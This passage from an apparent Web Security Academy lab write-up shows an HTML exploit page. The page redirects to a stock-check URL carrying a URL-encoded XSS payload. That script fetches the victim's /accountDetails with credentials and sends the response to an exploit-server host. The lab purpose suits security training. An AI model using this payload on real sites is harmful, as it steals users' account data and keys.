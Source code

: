 
After URL encoding and combining with the main payload:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
    </head>
    <body>
        <h1>Hello</h1>

        <script>
            window.location ="http://stock.ID.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%63%6f%6e%73%74%20%72%65%71%75%65%73%74%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%6f%70%65%6e%28%22%67%65%74%22%2c%20%22%68%74%74%70%73%3a%2f%2f%49%44%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%20%74%72%75%65%29%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%6f%6e%6c%6f%61%64%3d%20%28%29%3d%3e%7b%0a%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%49%44%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%75%65%73%74%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%0a%20%20%20%20%7d%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%0a%20%20%20%20%72%65%71%75%65%73%74%2e%73%65%6e%64%28%29%0a%3c%2f%73%63%72%69%70%74%3e&storeId=3"
        </script>
    </body>
</html>
```

